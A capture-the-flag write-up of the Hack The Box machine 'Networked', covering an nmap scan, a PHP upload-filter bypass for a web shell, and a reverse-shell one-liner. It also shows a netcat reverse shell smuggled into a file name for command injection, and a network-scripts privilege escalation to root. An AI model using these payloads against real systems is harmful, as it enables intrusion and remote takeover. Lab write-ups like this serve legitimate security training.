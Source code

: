```yaml
---
title: "Networked - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Networked
![](https://kar0nx.github.io/assets/images/writeup/0b286019523dcd78cf03d3a3472a3792.png)
## Reconnaissance

IP: 10.10.10.146
## NMAP

```
nmap -T4 -p- -A 10.10.10.146
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-10 07:30 UTC
Nmap scan report for 10.10.10.146
Host is up (0.031s latency).
Not shown: 65401 filtered tcp ports (no-response), 131 filtered tcp ports (host-prohibited)
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
443/tcp closed https
Device type: general purpose|router|WAP|media device
Running (JUST GUESSING): Linux 3.X|4.X|2.6.X|5.X (98%), MikroTik RouterOS 7.X (91%), Asus embedded (88%), Amazon embedded (88%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3 cpe:/o:linux:linux_kernel cpe:/h:asus:rt-ac66u
Aggressive OS guesses: Linux 3.10 - 4.11 (98%), Linux 3.2 - 4.14 (94%), Linux 3.13 - 4.4 (94%), Linux 3.10 (92%), Linux 2.6.32 - 3.13 (91%), Linux 5.0 - 5.14 (91%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (91%), Linux 3.8 - 3.16 (90%), Linux 3.4 - 3.10 (90%), Linux 5.1 - 5.15 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   30.58 ms 10.10.14.1
2   30.92 ms 10.10.10.146

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 141.00 seconds

```

## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910093132.png)

Running feroxbuster

```
feroxbuster -u http://10.10.10.146/ -x .php
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910094628.png)

in /backup we have full site zip file

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910093222.png)

now we can access all source code 
now let's navigate to upload.php

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910100630.png)

Quick review of source code of upload.php and we can try bypass file upload, I use simple web shell .php as example

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910101324.png)

adding extra .gif change content-Type and add Magic bytes gif8 at the start 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910101225.png)

## Gaining Access

great now I have web shell, simple oneliner to get reverse shell

```
bash -c "bash -i >& /dev/tcp/10.10.14.8/443 0>&1"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910101631.png)

can't read user.txt but there is another .php file here

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910104403.png)

Sooo, script execute every 3 min and there is no filtring options other than /, so maybe we can bypass it with only semicolon ; to end rm command and then take names of file as command.
I will try to add reverse shell to /var/www/html/uploads/ as filename 
Tried with base64 encoded bash oneliner but didn't work for me so I checked for nc and this works well

```
touch '; nc 10.10.14.8 4444 -c bash'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910110936.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910111002.png)

## Privilege Escalation

we can run custom script with sudo without password 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910111130.png)

Now I stucked, so watched ippsec video.
got a hint with this article 
https://seclists.org/fulldisclosure/2019/Apr/27?source=post_page-----d6a10ded7bc7---------------------------------------
Redhat/CentOS root through network-scripts
so after script ask for input and we type command after space it will execute, for example 
Script ask: what is your name:
we type: Karol whoami or Karol /bin/bash


![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910111526.png)